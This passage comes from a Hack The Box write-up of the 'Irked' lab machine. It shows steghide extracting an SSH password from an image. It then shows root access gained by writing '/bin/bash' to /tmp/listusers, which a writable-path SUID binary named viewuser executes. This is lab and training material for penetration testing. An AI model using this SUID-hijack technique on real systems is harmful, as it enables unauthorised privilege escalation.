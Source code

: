 ```
┌──(hosan㉿kali)-[~/oscp/htb-box/irked]
└─$ steghide extract -sf irked.jpg
Enter passphrase: 
wrote extracted data to "pass.txt".
                                                                                                                   
┌──(hosan㉿kali)-[~/oscp/htb-box/irked]
└─$ cat pass.txt         
Kab6h+m+bbp2J:HG
```

And we could log in via ssh.

## 6. Shell as root

I ran linpeas once more. After looking for a while, I found:

> -rwsr-xr-x 1 root root 7.2K May 16 2018 /usr/bin/viewuser (Unknown SUID binary!)

Maybe it's worth digging deeper.
```
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-08-17 08:28 (:0)
djmardov pts/1        2024-08-17 09:22 (10.10.16.14)
sh: 1: /tmp/listusers: not found
djmardov@irked:/tmp$ 
```

Okay, let's quickly create listusers  in /tmp to see what happenes with echo "hello" > listuser

```
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-08-17 08:28 (:0)
djmardov pts/1        2024-08-17 09:22 (10.10.16.14)
/tmp/listusers: 1: /tmp/listusers: hello: not found
```

So It tries to execute our input. Since there is no script named "hello", it throws not found error. 


It will give me a shell with /bin/bash.

```
djmardov@irked:/tmp$ echo "/bin/bash" > listusers
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-08-17 08:28 (:0)
djmardov pts/1        2024-08-17 09:22 (10.10.16.14)
root@irked:/tmp# djmardov@irked:
```
We got root. Done!

## 7. Source

- HTB 2024
- Me!

---
## Source

- Hack The Box 2024
- Me!